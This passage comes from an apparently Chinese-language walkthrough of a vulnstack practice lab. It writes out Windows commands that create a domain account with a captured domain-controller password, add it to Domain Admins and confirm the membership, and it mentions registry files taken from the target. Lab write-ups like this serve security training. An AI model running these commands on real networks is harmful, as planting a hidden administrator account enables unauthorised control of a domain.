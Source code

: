 

参考之前获取到的域控账户的密码`1qaz@WSX`，此处我也将新用户的密码设置成和他一样的，添加成功了

```
net user Henry 1qaz@WSX /add /domain
```

![image-20230528143557222](vulnstack靶场系列二/image-20230528143557222.png)



添加用户至管理员组: `net group "Domain Admins" Henry /add /domain`

![image-20230528143715023](vulnstack靶场系列二/image-20230528143715023.png)



查询管理员组是否有刚添加的用户: `net group "Domain Admins"`

![image-20230528143747571](vulnstack靶场系列二/image-20230528143747571.png)

​	

查看本地目录，可以看到远程获取到的三个注册表文件

![image-20230528143818874](vulnstack靶场系列二/image-20230528143818874.png)
